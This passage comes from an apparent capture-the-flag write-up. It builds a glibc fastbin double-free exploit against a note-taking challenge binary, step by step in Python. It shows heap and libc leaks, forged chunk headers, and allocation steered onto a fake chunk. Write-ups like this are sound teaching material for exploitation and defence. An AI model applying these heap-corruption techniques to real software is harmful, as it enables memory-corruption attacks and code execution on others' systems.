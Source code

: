 Our fastbin looks like this now , **4->1->fake\_chunk**. Let's add one more chunk to fastbin as we need **Add note** to give our fake chunk for writing our data not the header part.

```py
    free(2)
```

Now we have **2->4->1->fake\_chunk** , two more times **Add note** should give us our fake chunk for writing

```py
    add(0x10,'6666')
    #We get our overlapping chunk
    add(0x10,'a'*0x10 + p64(0) + p64(0xe0)) #Faking header's size to small bin
```

We finally can free our small bin chunk to get libc leak.

We have to recall that for free , the chunk which is next in memory should also be set appropriately, but here we have the top chunk and hence we face the **corrupted size or Double Free** SIGABART.

Ah Snap! , we have to modify our exploit a bit more to move forward , let us add 2 more chunks in the starting so that we dont face this issue.

```py
if __name__=="__main__":
    add(0x70,'0000')
    add(0x70,'1111')
    add(0x70,'2222')
    add(0x70,'3'*0x60 + p64(0) + p64(0x21)) #Contains our fake chunk
    add(0x90,'4444')
    add(0xd0,'5555')                        #This is to prevent errors in freeing the small bin
    
    free(1)
    free(2)          # 2->1
    free(0)          # 0->2->1

    #Add chunk number 6
    add(0x10,'\xf0') #which takes away 0th chunk for header and chunk 2 for note
    
    #Send chunk 6 to fastbin and thus get heap leak
    free(6)    # 6->1

    #Get heap Leak
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))

    #Now double free chunk 1
    free(1)         # 1->6->1

    #free another chunk to ensure that we get our chunk 1 as note and not the header
    free(3)         # 3->1->6->1 

    fake_chunk = heap_base + 0x270

    #Adding Chunk number 7
    add(0x10,p64(fake_chunk))   #This takes chunk 3 as header and chunk 1 taken as note , its fd overwritten with fake chunk , 
                                # 6->1->fake_chunk

    #Free Another chunk such that fake chunk is recieved as note and not as header
    free(2)    # 2->6->1->fake_chunk

    #Next add , chunk number 8, is just for removing 2 chunks from fastbin
    add(0x10,'8888') #chunk 8 , which takes chunk 2 as header and chunk 6 as its note, now fastbin is left with => 1->fake_chunk

```
